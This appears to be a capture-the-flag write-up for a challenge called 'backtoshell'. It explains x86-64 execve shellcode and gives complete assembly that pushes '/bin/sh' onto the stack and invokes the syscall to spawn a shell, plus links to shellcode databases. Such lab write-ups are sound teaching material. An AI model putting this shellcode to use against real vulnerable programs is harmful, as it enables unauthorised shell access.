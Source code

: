 **execve**

![image-20210914145615236](.assets/image-20210914145615236.png)

To open a shell, we need the `execve` syscall, which has to be executed with `/bin/sh` as first parameter. In order to do that we will put `0x3b` in the `rax` register, and a pointer to `/bin/sh\x00` into `rdi`.

Note that the string terminator is very important in order to make the exploit work.

**useful links**

* [Ghidra cheatsheet](https://ghidra-sre.org/CheatSheet.html)
* [Online assembler, to write shellcode](https://defuse.ca/online-x86-assembler.htm)
* [syscall specifications](https://syscalls.w3challs.com/?arch=x86_64)
* [x86 registers guide](https://wiki.cdot.senecacollege.ca/wiki/X86_64_Register_and_Instruction_Quick_Start)
* [x86-64 instruction set](https://www.felixcloutier.com/x86/)
* [GDB cheatsheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
* [Polymorphic and smaller versions of three shell-storm’s x64 shellcodes, including the smallest execve /bin/sh – Pentester's life (pentesterslife.blog)](https://pentesterslife.blog/2018/01/13/polymorphic-and-smaller-versions-of-three-shell-storms-x64-shellcodes-including-the-smallest-execve-bin-sh/)
* [shell-storm | Shellcodes Database](http://shell-storm.org/shellcode/)

**how does the exploit work**

First we need to get the string /bin/sh into memory, since we need to put its address in the `rdi` register. For e.g. we can do this by pushing it on the stack, using the `push` assembly function. First, we need to encode the string in hex using python:

```python
import binascii
binascii.hexlify(b"/bin/sh\x00")
```

output: `b'2f62696e2f736800'`. It's too long to be pushed on the stack with a single push function, and we need it to be reversed since we are working with a little endian processor. In python this is done using `[::-1]`, so we will use `binascii.hexlify(b"/bin/sh\x00"[::-1])`. So first we load it into a register, and then we push the reg into mem:

```assembly
mov rbx, 0x0068732f6e69622f
push rbx
```

Now the string is in the top of the stack. Then we will use the ESP address to reference it to the execve function.

So to solve backtoshell:

```assembly
mov rbx, rax                ; rbx is used as a general purpose register
                            ; to put things on the stack
add rbx, 64
mov rsp, rbx
mov rbx, 0x0068732f6e69622f ; '/bin/sh' is put into a register
push rbx                    ; argument on the stack
mov rdi, rsp                ; we copy the pointer to the argument in rdi as required
xor rbx, rbx                ; we put zero into reg b
push rbx                    ; we push it on the stack
mov rsi, rsp                ; we put the pointer to zero into the rsi reg
mov rdx, rsp                ; and we do the same for rdx (as required by the syscall)
mov rax, 0x3b               ; we choose which syscall to execute (execve)
syscall                     ; we call the function
```
